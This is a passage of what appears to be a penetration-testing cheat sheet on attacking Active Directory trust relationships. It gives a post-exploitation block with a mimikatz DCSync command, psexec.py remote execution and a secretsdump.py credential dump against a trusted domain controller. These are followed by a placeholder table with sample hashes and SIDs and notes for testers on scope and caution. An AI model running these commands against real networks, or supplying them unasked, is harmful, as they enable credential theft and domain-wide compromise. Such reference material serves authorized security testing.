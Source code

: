 ### Post-Exploitation

```powershell
# DCSync across trusts
mimikatz # lsadump::dcsync /user:TRUSTED-DOMAIN\TARGET-ADMIN /domain:TRUSTED-DOMAIN.LOCAL

# Cross-forest persistence
psexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <DC_IP>
secretsdump.py -k -no-pass TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL
```

### Variable Reference

| Placeholder | Description | Example |
|-------------|-------------|---------|
| `<DC_IP>` | Domain Controller IP Address | `10.10.10.100` |
| `<CHILD_DC_IP>` | Child Domain Controller IP | `192.168.1.10` |
| `<PARENT_DC_IP>` | Parent Domain Controller IP | `192.168.1.5` |
| `<TRUSTED_DC_IP>` | Trusted Domain Controller IP | `172.16.5.100` |
| `CURRENT-DOMAIN.LOCAL` | Current/Compromised Domain | `CORP.LOCAL` |
| `CHILD-DOMAIN.LOCAL` | Child Domain | `SUB.CORP.LOCAL` |
| `PARENT-DOMAIN.LOCAL` | Parent Domain | `CORP.LOCAL` |
| `TRUSTED-DOMAIN.LOCAL` | Trusted Domain | `PARTNER.LOCAL` |
| `USERNAME` | Domain Username | `jdoe` |
| `ADMIN` | Administrative Username | `administrator` |
| `PASSWORD` | User Password | `P@ssw0rd123!` |
| `<KRBTGT_HASH>` | KRBTGT NT Hash | `aad3b435b51404eeaad3b435b51404ee` |
| `<CHILD_SID>` | Child Domain SID | `S-1-5-21-1234567890-987654321-1122334455` |
| `<EA_SID>` | Enterprise Admins SID | `S-1-5-21-1234567890-987654321-1122334455-519` |
| `<FOREIGN_SID>` | Foreign Domain SID | `S-1-5-21-9876543210-123456789-5544332211-500` |
| `TARGET-USER` | Target Username | `svc_sql` |
| `FAKE-USER` | Non-existent Username | `hacker` |

---

## Notes

- **Always verify scope**: Ensure trusted domains are in scope before testing
- **Document all trusts**: Include in reports even if not exploited  
- **Check trust age**: Old trusts may be forgotten and misconfigured
- **Test both directions**: Bidirectional trusts = double the attack surface
- **Manual vs Automated**: Understand tools before using automation
- **Production caution**: Avoid "autopwn" scripts in client environments
- **Replace placeholders**: Substitute variables with actual values from your environment
- **Network connectivity**: Ensure proper routing between domains before testing
